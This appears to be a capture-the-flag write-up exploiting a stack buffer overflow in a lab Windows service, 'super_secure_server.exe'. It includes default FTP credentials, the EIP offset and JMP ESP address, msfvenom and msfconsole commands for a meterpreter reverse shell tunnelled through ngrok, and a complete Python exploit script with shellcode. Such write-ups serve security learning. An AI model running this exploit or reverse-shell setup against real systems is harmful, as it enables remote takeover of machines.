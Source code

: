 

SCANNING
=========
````
ports 
======

21     ftp
445    microsoft win server 2008 R2 "almost"
5357   http api 2.0 
1887  filex-lport

#other services are for windows and seemed helpless 
#http server is unavailable so let's focus on ftp 
````


ENUMERATION
===========
```
ftp enum :
ftp version is FileZilla 
Try default credts user&pass = ftp and worked :) 

-ftp interaction :

opened filezella enterd host,name,pass,port 21
-found same folders let's check them !
 
#file super_secure_server.exe   , it is a 32-bit application PE32
#essfunc.dll   , it is an dll file for this executable to run 
````


when you try to interact with port 1887 you will get :

![image](https://user-images.githubusercontent.com/67979878/129482250-97cf013a-b154-45fa-8a9d-98c8ab8927ca.png)

so let's put all what we found together ! 

it seems this supersecure sever is what is running on this port so let's explore this software .

Try strings with the software found command `SECRET` which we can use also 

now let's try understand this software :

let's make our win7 as the target and our kali as attacker .

run super_secure_server.exe on win7 , to interact with kali you need to know the following :

```
win 7 ip address
port running super_secure_server.exe
```
 - to know ip_address simply type in cmd > `ipconfig` you will find it in my case it is 192.168.1.8 
 - to know port go to taskmanager and search for the PID of supe_secure_server.exe , then at cmd type > `netstat -ano ` 
 - then search for PID associated port number , now you are ready to go 

![image](https://user-images.githubusercontent.com/67979878/129482623-1963e607-a5e9-4116-a563-fcc201410e07.png)


now let's play :)

trying various inputs and testing Buffer_over_flow

![image](https://user-images.githubusercontent.com/67979878/129482785-2593e9ad-2da2-4a53-a929-0549841d5e1b.png)

after many tries ..


![image](https://user-images.githubusercontent.com/67979878/129482818-72e16f1a-82fc-4b0c-95a4-3fa35711114b.png)
![image](https://user-images.githubusercontent.com/67979878/129482831-8ff0b41c-3bc3-42dc-a550-d4e78facb5f8.png)


it seems like BOF hmmmmmm.. 

let's open this software with immunity debugger in win7 and see ..

doing same input in kali side :
![image](https://user-images.githubusercontent.com/67979878/129482947-9446a806-2ca8-4020-bd94-9cc128a7071f.png)

#### so we can over write EIP 

now we have made sure it is BOF .

exploiting BOF :
-------------------
````
- get offset till EIP
- get address of jmp esp instruction
- find bad characters
- generate shell code
- payload ="A"*offset + 'address' +shell code

````
 
let's make a unique pattern and then get offset till EIP .

kali side :
--------------
$ msf-pattern_create -l 2000  

now let's send "SECRET "+pattern created and see EIP value now 

![image](https://user-images.githubusercontent.com/67979878/129483128-585ba94b-d5de-45e1-a12b-a05642f52a7f.png)

let's check offset for this value  68423268

![image](https://user-images.githubusercontent.com/67979878/129483175-7b955723-b588-44e7-9a2c-a5df92157fdc.png)


now let's under stand the full image of BOF :

````
we want final payload to be like 

payload="A"*offset+'jmp esp instrunction address' + 'NOP'+shell code

"A"*offset : this is just to let us reach the EIP address 
ESP : points to top of the stack in other words above last data entered the stack , so if it the shell code it will be points to top of it 
EIP : points to next instruction to be executed so if it points to instuction **jmp esp** it will execute our shell code  
NOP : to make space between EIP and shell code to avoid any possible errors , in hex '\x90'
shell code : what will return reverse shell to us 

````

To find jmp esp instruction esp we have multiple ways but i will use mona.py script in immunity debugger you can download it then put in immunitydebuuger/libraries 

![image](https://user-images.githubusercontent.com/67979878/129483679-21e2e735-9999-470c-981b-b210eb9c466f.png)

results :

##### note : choose any address but must have false protections ! 
![image](https://user-images.githubusercontent.com/67979878/129483689-273244b5-8458-40c7-be13-c68e10a10855.png)

i pick this : 625012BA 
to write it in the code we must follow little endian way : EIP='/xBA/x12/x50/x62'

creating shell code with msfvenom :

from https://www.revshells.com/ choose msfvenom and then remember the software is 32 bit so remove x64 from the payload and listener
change lport and lhost for yours 

`$msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.9 LPORT=1234 -b '\x00' -f py`  

listener :

`msfconsole -q -x "use multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 192.168.1.9; set lport 1234; exploit"`

let's set our listner 

now it is time to automate this somehow let's open up a simple python script 


````
#!/bin/python env 

import socket 

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM) #version 4 , tcp communication
s.connect(('192.168.1.8',13337))  #ip in string form and port in integer form
#buf is generated by msfvenom
buf =  b"\x90"*10  
buf += b"\xda\xdf\xbb\x67\xc4\x35\xee\xd9\x74\x24\xf4\x5a\x2b"
buf += b"\xc9\xb1\x59\x31\x5a\x19\x83\xc2\x04\x03\x5a\x15\x85"
buf += b"\x31\xc9\x06\xc6\xba\x32\xd7\xb8\x8b\xe0\x5e\xdd\x88"
buf += b"\x8f\x33\x2d\xda\xc2\xbf\xc6\x8e\xf6\x8e\x27\xa5\x85"
buf += b"\xd8\xd8\x0d\x23\x3f\xd7\xb1\x18\x03\x76\x4e\x63\x50"
buf += b"\x58\x6f\xac\xa5\x99\xa8\x7a\xc3\x76\x64\x2a\xa0\xda"
buf += b"\x99\x5f\xf4\xe6\x98\x8f\x72\x56\xe3\xaa\x45\x22\x5f"
buf += b"\xb4\x95\x41\x07\x96\x9e\x1d\xa0\xd7\x73\xcd\x55\x1e"
buf += b"\x07\xd1\x64\x5e\xa1\xa2\xb3\x2b\x33\x62\x8a\xeb\x98"
buf += b"\x4b\x22\xe6\xe1\x8c\x85\x19\x94\xe6\xf5\xa4\xaf\x3d"
buf += b"\x87\x72\x25\xa1\x2f\xf0\x9d\x05\xd1\xd5\x78\xce\xdd"
buf += b"\x92\x0f\x88\xc1\x25\xc3\xa3\xfe\xae\xe2\x63\x77\xf4"
buf += b"\xc0\xa7\xd3\xae\x69\xfe\xb9\x01\x95\xe0\x66\xfd\x33"
buf += b"\x6b\x84\xe8\x44\x94\x56\x15\x19\x02\x9a\xd8\xa2\xd2"
buf += b"\xb4\x6b\xd0\xe0\x1b\xc0\x7e\x48\xd3\xce\x79\xd9\xf3"
buf += b"\xf0\x56\x61\x93\x0e\x57\x91\xbd\xd4\x03\xc1\xd5\xfd"
buf += b"\x2b\x8a\x25\x01\xfe\x26\x2c\x95\xc1\x1e\x31\x6c\xaa"
buf += b"\x5c\x32\x6a\xf8\xe9\xd4\x22\xac\xb9\x48\x83\x1c\x79"
buf += b"\x39\x6b\x77\x76\x66\x8b\x78\x5d\x0f\x26\x97\x0b\x67"
buf += b"\xdf\x0e\x16\xf3\x7e\xce\x8d\x79\x40\x44\x27\x7d\x0f"
buf += b"\xad\x42\x6d\x78\xca\xac\x6d\x79\x7f\xac\x07\x7d\x29"
buf += b"\xfb\xbf\x7f\x0c\xcb\x1f\x7f\x7b\x48\x67\x7f\xfa\x78"
buf += b"\x13\xb6\x68\xc4\x4b\xb7\x7c\xc4\x8b\xe1\x16\xc4\xe3"
buf += b"\x55\x43\x97\x16\x9a\x5e\x84\x8a\x0f\x61\xfc\x7f\x87"
buf += b"\x09\x02\x59\xef\x95\xfd\x8c\x73\xd1\x01\x52\x5c\x7a"
buf += b"\x69\xac\xdc\x7a\x69\xc6\xdc\x2a\x01\x1d\xf2\xc5\xe1"
buf += b"\xde\xd9\x8d\x69\x54\x8c\x7c\x08\x69\x85\x21\x94\x6a"
buf += b"\x2a\xfa\x27\x10\x43\xfd\xc8\xe5\x4d\x9a\xc9\xe5\x71"
buf += b"\x9c\xf6\x33\x48\xea\x39\x80\xef\xe5\x0c\xa5\x46\x6c"
buf += b"\x6e\xf9\x99\xa5"

offset=997
payload  = "SECRET "
payload += "A"*offset 
payload +="\xba\x12\x50\x62"
payload +=buf
s.send(payload)
s.close()

````

### make sure software is running in win7 and your listener is working before running the script 

run it now :

![image](https://user-images.githubusercontent.com/67979878/129485033-60116127-bb39-4d4a-9f68-0e7a476c6ad4.png)

Here we go ! 

let's exploit it at the machine now :) 

small changes 
```
set up your ngrok 
'ngrok just simply map an ip and port to yours it acts like a vps'
$ ./ngrok tcp 1234
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=8.tcp.ngrok.io  LPORT=11379 -b '\x00' -f py    #generate new buf
$ msfconsole -q -x "use multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 127.0.0.1; set lport 1234; exploit" #listenner                      
```
run the script now 



![image](https://user-images.githubusercontent.com/67979878/129485416-a6afbfc0-002d-43ed-8964-7ba5774b6cd0.png)


flag is at c:/Users/Administartor/Desktop/flag.txt


# done











